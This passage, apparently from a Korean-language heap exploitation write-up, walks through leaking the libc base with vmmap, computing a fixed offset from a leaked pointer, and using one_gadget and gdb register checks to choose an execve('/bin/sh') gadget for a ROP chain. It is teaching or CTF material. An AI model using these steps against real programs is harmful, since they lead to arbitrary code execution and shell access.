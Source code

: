     - `vmmap` 을 사용해 libc_base 의 주소를 확인한다. (예시에서는 `0x7ffff7dcb000`)
     ```
      0x555555559000     0x55555557a000 rw-p    21000      0 [heap]
      0x7fff4d31f000     0x7ffff7dcb000 rw-p aaaac000      0 [anon_7fff4d31f]
      0x7ffff7dcb000     0x7ffff7ded000 r--p    22000      0 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7ded000     0x7ffff7f65000 r-xp   178000  22000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7f65000     0x7ffff7fb3000 r--p    4e000 19a000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fb3000     0x7ffff7fb7000 r--p     4000 1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fb7000     0x7ffff7fb9000 rw-p     2000 1eb000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fb9000     0x7ffff7fbf000 rw-p     6000      0 [anon_7ffff7fb9]
      0x7ffff7fc9000     0x7ffff7fcd000 r--p     4000      0 [vvar]
     ```

     - libc_base 주소에서 `fd` 에 저장된 주소를 빼고, 96 의 offset을 추가로 빼서 libc_base 와 `fd` 가 가리키는 주소 index 를 찾는다. `0x7ffff7fb8010` - `0x7ffff7dcb000` = `0x1ED010`
     - index 는 상대적인 값이므로 프로그램일 다시 실행시켜 libc_base 의 메모리 주소가 랜덤하게 변경되어도, index 는 변하지 않는다. 

  2. exploit 에 사용할 ROP chain 을 구한다. 
     - one-gadget 을 이용할 수도 있다. `libc` 파일을 one-gadget으로 분석하면 아래와 같다.
        ```
        $ one_gadget /lib/x86_64-linux-gnu/libc.so.6

        0xe3afe execve("/bin/sh", r15, r12)
        constraints:
          [r15] == NULL || r15 == NULL || r15 is a valid argv
          [r12] == NULL || r12 == NULL || r12 is a valid envp

        0xe3b01 execve("/bin/sh", r15, rdx)
        constraints:
          [r15] == NULL || r15 == NULL || r15 is a valid argv
          [rdx] == NULL || rdx == NULL || rdx is a valid envp

        0xe3b04 execve("/bin/sh", rsi, rdx)
        constraints:
          [rsi] == NULL || rsi == NULL || rsi is a valid argv
          [rdx] == NULL || rdx == NULL || rdx is a valid envp
        ```
        - 이후 `gdb` 에서 `i r` 명령으로 레지스터 상황을 보고 조건에 맞는 one-gadget 을 선택한다. 
        ```
        i r
        i r
        rax            0xfffffffffffffe00  -512
        rbx            0x3                 3
        rcx            0x7ffff7ed91f2      140737352929778
        rdx            0x5555513f          1431654719
        rsi            0x7fff4d31f010      140734488506384
        rdi            0x0                 0
        rbp            0x7fffffffdee0      0x7fffffffdee0
        rsp            0x7fffffffdeb8      0x7fffffffdeb8
        r8             0x6                 6
        r9             0x6                 6
        r10            0x555555556073      93824992239731
        r11            0x246               582
        r12            0x555555555140      93824992235840
        r13            0x7fffffffdff0      140737488347120
        r14            0x0                 0
        r15            0x0                 0
        rip            0x7ffff7ed91f2      0x7ffff7ed91f2 <__GI___libc_read+18>
        eflags         0x246               [ PF ZF IF ]
        cs             0x33                51
        ss             0x2b                43
        ds             0x0                 0
        es             0x0                 0
        fs             0x0                 0
        gs             0x0                 0
        ```